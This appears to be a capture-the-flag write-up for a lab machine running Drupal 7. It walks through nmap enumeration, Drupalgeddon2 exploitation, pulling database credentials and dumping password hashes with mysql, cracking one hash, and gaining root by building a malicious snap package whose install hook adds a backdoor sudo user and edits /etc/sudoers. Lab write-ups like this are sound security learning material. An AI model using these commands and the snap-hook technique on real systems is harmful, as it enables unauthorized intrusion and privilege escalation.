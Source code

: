 
# Main points
* [#^6b0a8d|dirty_sock vulnerability (snap)](#5E6b0a8d%7Cdirty_sock%20vulnerability%20%28snap%29)
*  [#^dd1865|drupalgeddon2](#%5Edd1865%7Cdrupalgeddon2)

# Enumeration
As always we start with nmap and find these open ports

* 22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
* 80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)

We see that the webserver is running Drupal 7, let's look on google if there are known vulnerabilities for this version of Drupal.

We find this github repo named [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)
and these exploits : ^dd1865

* https://www.exploit-db.com/exploits/44448

* https://www.exploit-db.com/exploits/44449

* https://www.exploit-db.com/exploits/44482
We try the metasploit module drupalgeddon
and we go to `sites/default/` we see settings.php and grab database creds

|Service|username|password|
|-----|-----|-----|
|mysql|drupaluser|CQHEy@9M\*m23gBVj|
|drupal hash|hash salt|4S4JNzmn8lq4rqErTvcFlV4irAJoNqUmYy_d24JEyns|

We connect to mysql database with our creds
```bash
mysql -u drupaluser -p CQHEy@9M*m23gBVj -e "show databases;"
```

![Pasted image 20210709023623.png](../Pasted%20image%2020210709023623.png) We see that we have a `drupal` database, we see that it has a `user` table, let's dump it.
```bash
mysql -u drupaluser -p CQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
```

We get the hash of `Brucetherealadmin`

|user|hash|
|----|----|
|brucetherealadmin|\$S\$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt|
let's crack the hash with John.

we get the password `booboo`, let's connect with ssh. We get the user flag.

# Priv Esc
### [dirty_sock vulnerability](https://initblog.com/2019/dirty-sock/)

^6b0a8d

Let's see if our user can run something as root with `sudo -l`
we can run `snap`
![Pasted image 20210709024313.png](../Pasted%20image%2020210709024313.png)

So to get root we have to install a malicious snap package and install it as root. Let's check [GTFOBins](https://gtfobins.github.io/gtfobins/snap/)
We need to install [fpm](https://github.com/jordansissel/fpm) to create our malicious snap package

We make our malicious script that will create a suer with sudo permissions

```bash
$ cat - > script
useradd hackerman -m -p '$6$oMAzzKTUH62kHvSC$rYnR4DAyvuLxTdH5QPSXXrNVqZlug.ZY2a.Q2hbBus4R6q57MAfQhrcPy/d/FRFRhUSdh1wO.3yn1nG/WVejq1' -s /bin/bash
usermod -aG sudo hackerman
echo "hackerman    ALL=(ALL:ALL) ALL" >> /etc/sudoers
```
Note: The encrypted password is generated with python `crypt.crypt("password")`

```bash
COMMAND=$(cat script)
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n pwn -s dir -t snap -a all meta
```
And then download it to the target with `curl` from python HTTP server.
![Pasted image 20210709025549.png](../Pasted%20image%2020210709025549.png)

On the victim machine we run 
```bash
sudo snap install pwn_1.0_all.snap --devmode
```
We wait for the installation, and we change the user
`su hackerman` we can sudo to `root`
We have root, and we get the flag.